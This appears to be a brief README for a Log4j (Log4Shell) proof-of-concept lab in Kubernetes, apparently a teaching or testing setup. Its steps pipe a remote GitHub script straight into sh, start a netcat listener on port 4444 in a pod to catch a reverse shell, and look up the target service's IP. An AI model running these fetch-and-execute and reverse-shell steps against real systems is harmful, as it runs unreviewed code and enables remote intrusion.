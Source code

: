 # log4j-poc in kubernetes environment

Terminal 1: 
-`apt-get update && apt-get install -y wget;wget -q -O - https://raw.githubusercontent.com/nandakrr/log4j-poc/main/run.sh | sh`

Terminal 2: 
-`kubectl exec -it nc-pod -- nc -lvnp 4444`

Terminal 3:
-`kubectl get all | grep java-ms-svc | awk '{print $4}'`
